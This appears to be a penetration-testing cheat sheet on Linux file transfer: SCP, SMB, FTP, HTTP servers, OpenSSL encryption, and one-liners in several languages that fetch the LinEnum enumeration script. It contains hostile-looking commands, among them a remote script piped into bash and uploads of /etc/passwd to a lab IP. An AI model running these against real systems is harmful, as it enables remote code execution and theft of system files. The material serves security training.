 ```yaml
---
---

# Linux - Linux

**File Transfer - SCP**

```bash
# Upload file using SCP
scp /etc/passwd user@192.168.49.128:/home/user/

# Download file using SCP
scp user@192.168.49.128:/etc/passwd /home/user/
```

**File Transfer - SMB**

```bash
# Install smbclient
sudo apt install smbclient

# Upload file using smbclient
smbclient //192.168.49.128/share -U username%password -c 'put /tmp/file.txt'
```

**File Transfer - FTP**

```bash
# Install FTP server
sudo apt install vsftpd

# Start FTP server
sudo service vsftpd start

# Upload file using FTP
curl -T /tmp/file.txt ftp://localhost/upload/
```

**Python HTTP Server:**

```bash
# Start HTTP server
python3 -m http.server

# Download file using curl
curl http://localhost:8000/file.txt -o /tmp/file.txt
```

**File Encryption**

```bash
# Encrypt file with OpenSSL
openssl enc -aes256 -in /tmp/file.txt -out /tmp/file.enc

# Decrypt file with OpenSSL
openssl enc -d -aes256 -in /tmp/file.enc -out /tmp/file.txt
```

**Transferring Files With Code**

```bash

# Python 2 
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'

# Python 3
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'

# PHP -  File_get_contents()
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'

# PHP - Fopen()
php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'

# PHP - File and Pipe it to Bash
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash

# Ruby
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'

# Perl
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'


# Upload Files

# Starting the Python uploadserver Module
python3 -m http.server
# Uploading a File Using a Python One-Liner
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

---
```

---


